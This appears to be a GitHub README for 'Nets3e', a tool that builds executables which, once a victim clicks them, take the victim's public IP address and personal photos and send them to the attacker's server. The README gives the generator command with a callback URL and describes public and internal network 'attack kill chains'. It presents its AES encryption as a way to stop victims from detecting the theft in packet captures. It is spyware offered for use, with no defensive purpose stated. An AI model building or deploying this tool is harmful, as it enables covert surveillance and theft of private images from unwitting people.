



  <div align="center">
<p align="center">
 
 
  
 
 
 </p>
  
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Obtain the victim's public network IP and personal photos</th>
    <th>Internal shortest path attack</th>
    <th>Add AES encryption to prevent intermediaries from hijacking information [NEW]</th>
</tr>
 
 </table>
</div>


  
## Nets3e Example

``#python3 Nets3e.py -h``

 


```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``


 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``


 

``Attack Kill Chain``

 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``


 

``Attack Kill Chain``

 

## Add Salt

``[New] Add the (-salt) parameter, which allows the client to perform AES encryption on your data transmission to prevent it from falling into the hands of intermediaries
Default salt value: LAN local host IP
``

_Nets3e v1.1.1_

``
Directly using BASE64 encoding is very insecure, resulting in victims being able to determine the attacker's behavior by capturing packets
``

 

 

_Nets3e v1.1.2_

_Using AES encryption significantly increases the difficulty of cracking plaintext, and the victim cannot detect anomalies through packet capture, disguised as normal HTTP requests_

 

 

